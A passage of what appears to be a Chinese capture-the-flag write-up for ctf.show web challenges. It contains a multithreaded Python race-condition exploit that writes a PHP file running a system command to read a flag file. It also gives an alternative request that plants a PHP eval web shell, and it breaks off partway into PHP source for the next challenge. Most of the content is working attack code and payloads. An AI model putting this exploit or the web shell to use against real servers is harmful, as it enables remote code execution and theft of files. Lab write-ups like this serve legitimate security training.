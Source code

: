 条件竞争

```
import io
import requests
import threading

url = 'http://d3aa0fa3-8a63-4994-8a43-80891c436065.chall.ctf.show/'


def write():
    while event.isSet():
        data = {
            'show': '<?php system("cat /ctfshow_fl0g_here.txt");?>'
        }
        requests.post(url=url+'?ctf=1.php', data=data)


def read():
    while event.isSet():
        response = requests.get(url + '1.php')
        if response.status_code != 404:
            print(response.text)
            event.clear()


if __name__ == "__main__":
    event = threading.Event()
    event.set()
    for i in range(1, 100):
        threading.Thread(target=write).start()

    for i in range(1, 100):
        threading.Thread(target=read).start()


```

还有个非预期就是直接写🐎

```
GET ?ctf=index.php
POST show=<?php eval($_POST[hack]);?>
```

# web150

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
```